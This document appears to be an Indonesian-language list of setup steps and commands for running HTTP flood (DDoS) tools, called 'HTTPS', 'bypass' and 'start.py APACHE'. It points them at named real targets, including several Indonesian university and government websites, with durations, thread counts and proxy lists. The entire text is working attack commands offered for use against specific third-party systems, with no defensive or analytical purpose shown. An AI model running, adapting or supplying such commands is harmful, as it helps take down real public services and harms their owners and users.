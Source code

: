 Ketik apt update
Ketik apt install npm
python3 scrape.py (muncul pilahn Y/N, ketik N)
npm i sockopt
npm i hpack



node HTTPS https://appsfikes.ub.ac.id/sgacor/ 30000 64 10 proxy.txt

https://xn--12c1bdhlef6dcd3lnaq3r.xyz/sertifikat/
https://xn--777-w15fa444ju10bysk.online/amp/


npm i fake-useragent
npm i request
npm i gradient-string 
npm i cheerio
npm i randomstring
npm i user-agents
npm i axios

node bypass https://pakekdulu-brandnya.pages.dev/izin/puhh/?link=BAPAUTOTO 80000 64 10 proxy.txt

node bypass https://appsfikes.ub.ac.id/sgacor/ 80000 64 10 proxy.txt


node bypass https://perijinan.blitarkota.go.id/assets/jp-gacor/ 80000 64 10 proxy.txt

node bypass https://taep.umm.ac.id/template/app/ 84500 64 10 proxy.txt

node bypass https://psdmk.um.ac.id/sthai/ 84500 64 10 proxy.txt

https://nasiangkasa.com/2024/april/10/maxwinslot.html

node bypass https://e-learning.universitasbumigora.ac.id/local/maxclub/ 80000 64 10 proxy.txt



python3 start.py APACHE si-asik.tubaba.go.id 4 894 proxy.txt 61 1693
